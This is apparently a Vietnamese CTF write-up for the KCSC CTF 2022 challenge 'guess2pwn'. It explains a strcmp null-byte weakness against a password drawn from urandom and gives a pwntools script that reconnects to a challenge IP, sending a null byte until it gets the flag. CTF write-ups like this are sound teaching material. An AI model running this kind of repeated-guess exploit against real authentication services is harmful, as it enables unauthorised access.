


# KCSC CTF 2022 - guess2pwn

Các bạn có thể tải chall ở repo của mình: [guess2pwn.zip](guess2pwn.zip)

# 1. Tìm lỗi

Decompile bằng ghidra, ta thấy hàm tạo mật khẩu như sau:



Với `urandom` là file được dùng để lấy các giá trị random khác nhau, không phụ thuộc vào seed. Vì thế mỗi khi lấy random, các giá trị lấy được sẽ khác nhau tuy lấy cùng trong 1 giây.

Vì thế việc lấy được password chính xác là bất khả thi. Tuy nhiên ở hàm `strcmp`, việc so sánh sẽ dừng lại chỉ khi nào gặp ký tự null byte `\x00` ở cả 2 chuỗi.

Đồng thời ở đây, việc lấy giá trị random có thể cho ta password với byte đầu tiên là null byte. Vì thế ta chỉ việc nhập input là 1 byte null và chạy liên tục tới khi nào ta lấy được flag.

# 2. Khai thác

Full code:

```python
from pwn import *

context.log_level = 'critical'
while True:
    p = remote('139.180.134.15', 7332)
    p.sendlineafter(b'password:', p8(0))
    data = p.recvall()
    if b'wrong' not in data:
        print(data)
        break
```

# 3. Lấy cờ



Flag là `KCSC{fb62e93cfcbd763db1f922c07cc5b5fd}`